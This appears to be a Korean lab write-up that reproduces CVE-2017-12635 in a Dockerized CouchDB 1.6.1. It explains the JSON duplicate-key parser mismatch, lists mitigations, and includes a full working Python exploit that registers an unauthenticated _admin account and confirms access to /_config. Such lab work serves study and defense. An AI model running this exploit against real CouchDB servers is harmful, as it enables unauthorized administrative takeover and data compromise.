






# CVE-2017-12635

> 같은 CVE에 대한 다른 기여자의 환경이 [`CouchDB/CVE-2017-12635`](../CVE-2017-12635/README.md)에도 있음. 이 문서는 별도의 두 번째 구현(`CVE-2017-12635_2`)임.

**Contributors**

-   [왕은서(@kingsthegarden)](https://github.com/kingsthegarden)

<br/>

### 요약

-   Apache CouchDB 1.7.0 이전 및 2.1.1 이전 버전에서, 문서를 검증하는 JavaScript 기반 JSON 파서와 실제로 문서를 저장하는 Erlang 기반 JSON 파서가 서로 다른 결과를 내는 문제를 이용해, 인증 없이 `_admin` 권한을 가진 계정을 생성하고 관리자 권한을 탈취할 수 있음.
-   **Risk Score: 9.8 (Critical)** — CVSS v3.1 Vector: `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
    -   인증 불필요(원격, 무인증), 네트워크를 통한 낮은 공격 복잡도로 공격 가능하며, 성공 시 CouchDB 인스턴스의 기밀성·무결성·가용성을 모두 완전히 장악할 수 있음.
-   **Reproducibility** — 공식 `couchdb:1.6.1` 이미지를 그대로 베이스로 사용하는 취약 버전이며(별도 패치나 오설정 불필요), `docker compose up -d --build` 한 번과 `poc.py` 단일 스크립트 실행만으로 전체 과정이 자동 재현됨.
-   참고: <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html>

<br/>

### CouchDB란?

-   Apache CouchDB는 Erlang으로 구현된 오픈소스 문서 지향(document-oriented) NoSQL 데이터베이스임.
-   JSON 문서를 저장하고, HTTP API를 통해 조회·생성·수정하며, `_users` 데이터베이스에 사용자 계정과 권한(`roles`)을 관리함.

<br/>

### CVE-2017-12635 소개

-   CouchDB는 사용자가 `_users` 데이터베이스에 자기 자신의 계정 문서를 생성(self-registration)할 수 있도록 허용하지만, 이때 `roles` 필드에 `_admin`과 같은 관리자 권한을 스스로 부여하지 못하도록 애플리케이션 레벨(JavaScript 기반 `validate_doc_update` 로직)에서 검증함.
-   문제는 CouchDB 내부에서 요청 본문이 서로 다른 두 지점에서 중복 키를 다르게 처리한다는 점임. (근거: [justi.cz 원문 분석](https://justi.cz/security/2017/11/14/couchdb-rce-npm.html))
    -   **검증 단계**: `validate_doc_update`는 표준 JavaScript `JSON.parse()`로 요청 본문을 해석함. JS 객체 리터럴은 중복 키가 있으면 **마지막 값**만 남김.
    -   **저장 단계**: 문서를 디스크에 쓸 때는 CouchDB의 네이티브 Erlang JSON 파서인 [jiffy](https://github.com/apache/couchdb-jiffy)를 사용함. jiffy는 중복 키를 버리지 않고 **둘 다 내부 리스트에 보존**함. 이후 CouchDB가 이 리스트에서 값을 꺼낼 때 쓰는 Erlang 함수 `lists:keysearch/3`가 **첫 번째로 일치하는 항목**을 반환하도록 되어 있어, 결과적으로 첫 번째 값이 최종 저장값이 됨.
-   즉 "Erlang 파서가 첫 값을 쓴다"기보다, **jiffy는 중복을 보존하고, 그 중 첫 값을 고르는 것은 조회 함수(`lists:keysearch`)의 동작**이라는 점이 정확한 원인임.
-   따라서 요청 본문에 `"roles"` 키를 두 번 포함시키면(`["_admin"]` 을 먼저, 빈 배열 `[]` 을 나중에), 두 단계에서 서로 다른 값을 보게 됨.

    | 처리 단계 | 사용 로직 | 중복 키 처리 | 이 요청에서 보는 값 |
    |---|---|---|---|
    | 검증 (`validate_doc_update`) | JS `JSON.parse()` | 마지막 값 사용 | `roles: []` → 관리자 요청 아님 → 통과 |
    | 저장 (디스크에 쓰는 시점) | jiffy 디코드 + `lists:keysearch/3` 조회 | 첫 번째 값 사용 | `roles: ["_admin"]` → 그대로 저장됨 |

-   결과적으로 인증되지 않은 원격 공격자가 `_admin` 역할을 가진 계정을 생성하고, 그 계정으로 로그인해 CouchDB 전체에 대한 관리자 권한(임의 데이터베이스 생성/삭제, 설정 변경, `_config`를 통한 원격 코드 실행 등)을 획득할 수 있음.

<br/>

### 취약 조건

-   Apache CouchDB **1.7.0 미만** (2.x 계열은 2.1.1 미만)
-   본 환경은 공식 Docker Hub `couchdb:1.6.1` 이미지를 그대로 사용하며, 별도의 오설정 없이 기본 설치 상태에서 취약함. (2.x 계열은 Docker Hub 공식 이미지에 취약 버전인 `2.1.0` 태그 자체가 더 이상 배포되지 않아, 같은 CVE 범위의 1.x 취약 버전으로 구성함.)
-   대상 CouchDB의 HTTP API(기본 포트 5984)에 네트워크로 접근 가능해야 하며, 관리자 계정(`COUCHDB_USER`/`COUCHDB_PASSWORD`)이 설정되어 있어야 함. (관리자 계정이 전혀 없는 "Admin Party" 모드에서는 애초에 누구나 관리자이므로 이 취약점을 시연할 대상 자체가 없음.)

<br/>

### 환경 구성

```
CouchDB/CVE-2017-12635_2/
├── Dockerfile           # FROM couchdb:1.6.1 (공식 이미지, 버전 고정)
├── docker-compose.yml   # couchdb 서비스 하나로 구성
├── poc.py               # 취약점 재현 PoC
└── README.md
```

-   `couchdb` 서비스는 공식 `couchdb:1.6.1` 이미지를 베이스로 하는 `Dockerfile`을 빌드해 사용함. (외부에서 이미 만들어진 취약 이미지에 의존하지 않음.)
-   공식 CouchDB 이미지는 `COUCHDB_USER`/`COUCHDB_PASSWORD` 환경변수를 지정하면 컨테이너 기동 시 자동으로 관리자 계정을 생성해줌(`docker-entrypoint.sh`가 `/usr/local/etc/couchdb/local.d/docker.ini`에 기록). 1.x 계열은 2.x와 달리 별도의 클러스터/시스템 DB 초기화가 필요 없어 서비스가 하나로 끝남.
-   실행 환경: Windows + WSL2(Ubuntu) 위에서 Docker Desktop을 구동하고, WSL Integration을 켜서 이 Ubuntu 터미널에서 `docker`/`docker compose` 명령을 바로 사용함.

다음 명령 하나로 환경이 완성됨.

```bash
docker compose up -d --build
```



컨테이너 상태 확인.

```bash
docker ps
```



Docker Desktop의 Containers 화면에서도 `couchdb` 컨테이너가 Running 상태로 떠 있고, 이미지가 `cve-2017-12635_2-couchdb`(직접 빌드한 이미지)인 것을 확인할 수 있음.



<br/>

### PoC 코드

`poc.py` (Python 3, `requests` 라이브러리 필요: `pip install requests`)

-   생성할 계정명에 매 실행마다 랜덤 접미사(`uuid4`)를 붙여, 같은 컨테이너를 초기화하지 않고 여러 번 실행해도 문서 충돌(409) 없이 항상 재현되도록 함.
-   사용법: `python3 poc.py [target] [port] [--username NAME] [--password PW]`. `target`/`port`를 생략하면 각각 `http://127.0.0.1`, `5984`가 기본값으로 사용됨. 다른 호스트를 대상으로 하려면 `python3 poc.py http://<대상-IP> 5984`처럼 실행하면 됨.

```python
import argparse
import sys
import uuid

import requests

parser = argparse.ArgumentParser(description="CVE-2017-12635 CouchDB PoC")
parser.add_argument("target", nargs="?", default="http://127.0.0.1", help="e.g. http://your-ip")
parser.add_argument("port", nargs="?", default="5984")
parser.add_argument("--username", default=f"hacker-{uuid.uuid4().hex[:6]}")
parser.add_argument("--password", default="hacker123")
args = parser.parse_args()

base = f"{args.target}:{args.port}"
headers = {"Content-Type": "application/json"}

print(f"[*] Target: {base}")

print("\n[0] Confirm admin-only endpoint /_config is not reachable without authentication")
resp = requests.get(f"{base}/_config")
print(f"    -> HTTP {resp.status_code}")
if resp.status_code != 401:
    print("    [!] unexpected: /_config should require authentication (is admin_party enabled?)")

print("\n[1] Confirm normal self-registration cannot grant _admin role")
normal_body = f'{{"type":"user","name":"{args.username}","roles":["_admin"],"password":"{args.password}"}}'
resp = requests.put(f"{base}/_users/org.couchdb.user:{args.username}", data=normal_body, headers=headers)
print(f"    -> HTTP {resp.status_code} {resp.text.strip()}")
if resp.status_code == 201:
    print("    [!] unexpected: normal request should have been rejected (403 forbidden)")

print("\n[2] Exploit: duplicate 'roles' key confuses Erlang/JS JSON parsers")
exploit_body = (
    f'{{"type":"user","name":"{args.username}2","roles":["_admin"],"roles":[],"password":"{args.password}"}}'
)
resp = requests.put(f"{base}/_users/org.couchdb.user:{args.username}2", data=exploit_body, headers=headers)
print(f"    -> HTTP {resp.status_code} {resp.text.strip()}")
if resp.status_code != 201:
    print("    [-] exploit failed, aborting")
    sys.exit(1)
print(f"    [+] user '{args.username}2' created and stored with _admin role despite no authentication")

print("\n[3] Log in as the newly created admin user")
resp = requests.post(
    f"{base}/_session",
    data={"name": f"{args.username}2", "password": args.password},
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)
if resp.status_code != 200:
    print(f"    [-] login failed: HTTP {resp.status_code} {resp.text.strip()}")
    sys.exit(1)
print(f"    [+] logged in: {resp.text.strip()}")
session_cookie = resp.cookies.get("AuthSession")

print("\n[4] Use the admin session to reach the admin-only /_config endpoint")
resp = requests.get(f"{base}/_config", cookies={"AuthSession": session_cookie})
print(f"    -> HTTP {resp.status_code}")
if resp.status_code == 200:
    print("    [+] privilege escalation confirmed: unauthenticated request now has _admin access")
else:
    print("    [-] admin endpoint access failed")
    sys.exit(1)
```

<br/>

### 재현 절차 및 실행 결과

```bash
pip install requests
python3 poc.py http://127.0.0.1 5984
```

정상적으로 재현되면 다음과 같은 흐름으로 출력됨.

1. `[0]` 관리자 전용 API인 `/_config`는 인증 없이는 `401`로 거부됨. (공격 전 기준선)
2. `[1]` 일반적인 `roles: ["_admin"]` 단일 요청은 관리자 권한 자체 부여가 거부되어야 함 (403).
3. `[2]` `roles` 키를 중복 포함한 요청은 `201 Created`로 성공하며, 실제로는 `_admin` 역할이 저장됨.
4. `[3]` 방금 생성한 계정으로 `_session` 로그인에 성공하고 응답에 `"roles":["_admin"]`이 찍힘.
5. `[4]` 해당 세션으로 `[0]`에서 거부됐던 `/_config`에 다시 접근해 이번엔 `200 OK`를 받으면, 인증 없이 관리자 권한을 탈취했음이 최종 증명됨.



<br/>

### 트러블슈팅: 재실행 시 409 Conflict

재현 과정에서 실제로 겪었던 문제와 해결 과정을 기록함.

-   최초 버전의 `poc.py`는 생성할 계정명을 `hacker`(고정값)로 하드코딩함. 컨테이너를 재부팅하지 않은 채로 `poc.py`를 다시 실행했더니, CouchDB가 이미 존재하는 `org.couchdb.user:hacker2` 문서에 `_rev` 없이 덮어쓰려는 요청으로 판단해 `409 Conflict`를 반환하며 익스플로잇이 실패함.

    

-   원인은 CouchDB 문서가 `_id` 기준으로 유일해야 하고, 이미 존재하는 문서를 수정하려면 최신 `_rev` 값을 함께 보내야 하는데, PoC가 매번 같은 `_id`(`org.couchdb.user:hacker2`)로 신규 생성(`PUT`, `_rev` 없음)을 시도했기 때문임. 즉 취약점 자체와는 무관한, **PoC 스크립트의 재실행 안정성 문제**였음.
-   `docker compose down -v`로 컨테이너를 초기화하면 매번 성공하지만, 채점 환경에서 컨테이너를 초기화하지 않고 `poc.py`만 재실행할 가능성도 있으므로, 계정명에 `uuid4` 기반 랜덤 접미사를 붙여 매 실행마다 새 문서 `_id`를 사용하도록 수정함. (현재 `poc.py`에 반영된 상태)
-   수정 후에는 같은 컨테이너에서 연속으로 여러 번 실행해도 매번 새 계정으로 `201 → 200`까지 정상 재현됨을 확인함.

<br/>

### 클린 재검증

제출한 파일 그대로 클린 환경에서 다시 재현되는지 확인함.

```bash
docker compose down -v
docker compose up -d --build
python3 poc.py http://127.0.0.1 5984
```



<br/>

### 대응 방안

-   CouchDB를 **2.1.1 이상 (1.x 계열은 1.7.0 이상)** 버전으로 업그레이드함. 해당 버전부터는 검증 단계와 저장 단계가 같은 방식으로 중복 키를 처리하도록 수정되어, 이 글에서 설명한 파서 불일치 자체가 사라짐.
-   업그레이드가 즉시 불가능한 경우, CouchDB API를 신뢰할 수 있는 네트워크로 제한(방화벽, 리버스 프록시 인증 등)하여 외부에서 직접 `_users` 엔드포인트에 접근하지 못하도록 함. 이번 실습 환경처럼 `docker run -p 5984:5984`로 포트를 `0.0.0.0`에 그대로 열어두는 구성은 실습/랩 용도가 아니라면 피해야 함.
-   `admin_party`(관리자 계정이 하나도 없어 모든 사용자가 관리자로 동작하는 모드)가 활성화되어 있지 않은지 확인함. 다만 이번 CVE는 admin_party 모드가 아니라 **관리자 계정이 정상적으로 설정된 환경**에서도 self-registration 검증 우회로 뚫리는 문제이므로, admin_party를 껐다는 사실만으로는 안전하다고 볼 수 없음.
-   `_users` 데이터베이스에 대한 self-registration이 실제로 필요한 기능인지 점검하고, 불필요하면 비활성화함.
-   `_users`에 대한 문서 생성/수정 요청(`PUT /_users/org.couchdb.user:*`)을 로깅·모니터링해, 짧은 시간 내 반복적인 계정 생성 시도나 `roles` 필드를 포함한 self-registration 요청처럼 비정상적인 패턴을 탐지함.

<br/>

### 참고자료

-   <https://justi.cz/security/2017/11/14/couchdb-rce-npm.html>
-   <https://www.exploit-db.com/exploits/44498>
-   <https://nvd.nist.gov/vuln/detail/CVE-2017-12635>
-   <https://docs.couchdb.org/en/stable/cve/2017-12635.html>
